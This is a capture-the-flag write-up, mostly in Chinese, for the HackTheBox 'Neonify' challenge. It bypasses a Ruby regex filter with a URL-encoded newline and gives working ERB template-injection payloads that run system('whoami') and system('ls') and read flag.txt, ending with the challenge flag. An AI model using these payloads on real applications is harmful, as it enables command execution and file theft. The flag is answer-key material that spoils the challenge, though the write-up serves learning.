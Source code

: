 ```yaml
---
title: 'HackTheBox: Neonify'
disqus: hackmd
---
```


HackTheBox: Neonify Writeup
===


## Table of Contents

[TOC]

## Topic

### Lab
#### HackTheBox: 
https://app.hackthebox.com/challenges/Neonify

### Initial Enumeration

●Start Machine: 
https://83.136.254.223:30167/
![image](https://hackmd.io/_uploads/rklu7sxH-C.png)

Submit: CHW
![image](https://hackmd.io/_uploads/rkq9sxS-0.png)
> CHW

Submit: $(ls) 
![image](https://hackmd.io/_uploads/BJEj2lrZ0.png)
> Malicious Input Detected

## Solution

### 1.Code Review
neon.rb
```ruby=
class NeonControllers < Sinatra::Base

  configure do
    set :views, "app/views"
    set :public_dir, "public"
  end

  get '/' do
    @neon = "Glow With The Flow"
    erb :'index'
  end

  post '/' do
    if params[:neon] =~ /^[0-9a-z ]+$/i
      @neon = ERB.new(params[:neon]).result(binding)
    else
      @neon = "Malicious Input Detected"
    end
    erb :'index'
  end

end
```

提交的@neon 需要符合正規表達式: `/^[0-9a-z ]+$/i`
1. 正則表達式的開始和結束都被斜槓 / 包圍
2. ^ 符號表示匹配字串的開頭
3. `[0-9a-z ] 匹配所有數字、小寫字母和空格
4. +表示至少有一個或多個符合前面指定的字符
5. $ 表示匹配字串的結尾
6. i 表示不區分大小寫

> ERB (Ruby)
> 想嘗試Ruby SSTI

### 2. SSTI
```
neon=<%= 7*7 %>
```
> 不符合正表達式，肯定會被擋

● [Ruby Bypass regular expression](https://davidhamann.de/2022/05/14/bypassing-regular-expression-checks/) : abc\n<%= 7*7 %>
> 嘗試過\n ，無法識別
> URL-encoded: %0A

### 3. %0A bypass regular expression
#### 3.1 neon=chw%0A<%= 7*7 %>
● 使用chw%0A<% 7*7 %>
```
neon=chw%0A%3C%257%2A7%25%3E
```
![image](https://hackmd.io/_uploads/SylqO_L-C.png)
> (1) 在網頁上直接輸入會被視為字元，使用 BurpSuite Repeater\
> (2) 嘗試 double encode

● 嘗試 double encode
```
neon=chw%0A%253C%2525%25207%252A7%2520%2525%253E
```
![image](https://hackmd.io/_uploads/HkpyWt8bA.png)

> 顯示 encode一次的值，代表:\
> (1) 輸入有效\
> (2) 確認系統會decode 一次\
> Final 試到天荒地老，後來才發現使用 <%= 才會顯示結果

● chw%0A<%= 7*7 %>
```
neon=chw%0A%3C%25%3D7%2A7%25%3E
```
![image](https://hackmd.io/_uploads/rJoROu8-0.png)
> 成功顯示 49。
> 代表成功執行ERB，可以進行SSTI

#### 3.2 Execute Command
● <%= system("whoami") %>
```
neon=chw%0A%3C%25%3D%20system%28%22whoami%22%29%20%25%3E
```
![image](https://hackmd.io/_uploads/Syrxj_8WR.png)
> 誤以為user: true

● <%= system("ls") %>
```
neon=chw%0A%3C%25%3D%20system%28%22ls%22%29%20%25%3E
```
![image](https://hackmd.io/_uploads/rkCYo_LZC.png)
> True again.
> 改用Ruby 語法

### 4. Read Files In Ruby: File.read('flag.txt')
● [Read Files In Ruby](https://www.rubyguides.com/2015/05/working-with-files-ruby/): **File.read/write/open('<file name>')**

● <%= File.read('/flag.txt') %>
```
neon=chw%0A%3C%25%3D%20File.read%28%27%2Fflag.txt%27%29%20%25%3E
```
![image](https://hackmd.io/_uploads/B1iphuLb0.png)
> 顯示500 Internal Server Error

 ![image](https://hackmd.io/_uploads/BJAC6dUb0.png)
> 猜測: 沒有權限訪問根目錄

### 5. Get FLAG

● **<%= File.read('flag.txt') %>** 
```
neon=chw%0A%3C%25%3D%20File.read%28%27flag.txt%27%29%20%25%3E
```  
![image](https://hackmd.io/_uploads/S1jvnOUb0.png)

> **FLAG: HTB{r3pl4c3m3n7_s3cur1ty}**
    
###### tags: `Web` `CTF` `SSTI`

